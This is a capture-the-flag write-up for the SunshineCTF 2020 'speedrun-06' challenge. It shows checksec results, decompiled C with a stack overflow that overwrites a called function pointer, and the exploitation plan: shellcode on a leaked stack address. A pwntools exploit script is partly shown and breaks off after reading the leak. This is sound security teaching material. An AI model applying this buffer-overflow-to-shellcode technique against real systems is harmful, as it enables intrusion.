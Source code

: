 ## speedrun-06

### Checksec  
```  
   Arch:     amd64-64-little  
   RELRO:    Full RELRO  
   Stack:    No canary found  
   NX:       NX disabled  
   PIE:      PIE enabled  
   RWX:      Has RWX segments  
```

No canary--BOF. No NX/Has RWX--shellcode. PIE enabled--no ROP without leak.

### Decompile with Ghidra

```c  
void main(void)  
{  
 char local_d8 [208];  
  
 printf("Letting my armor fall again: %p\n",local_d8);  
 fgets(local_d8,199,stdin);  
 vuln();  
 return;  
}

void vuln(void)  
{  
 char local_48 [56];  
 code *local_10;  
  
 puts("For saving me from all they\'ve taken.");  
 fgets(local_48,100,stdin);  
 (*local_10)();  
 return;  
}  
```

Not unlike the previous challenge, however no `win` function.  But with No
NX/Has RWX we can bring our own `win` function.

`main` leaks the stack and accepts our shellcode, `vuln` calls it.  To trigger
in `vuln` send `0x48 - 0x10` (56) bytes of garbage followed by the stack
address leak from `main`.

### Exploit

```python  
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./chall_06')

if not args.REMOTE:  
   p = process(binary.path)  
else:  
   p = remote('chal.2020.sunshinectf.org', 30006)

p.recvuntil('Letting my armor fall again: ')  
_ = p.recvline().strip()  
stack = int(_,16)  
log.info('stack: ' + hex(stack))

```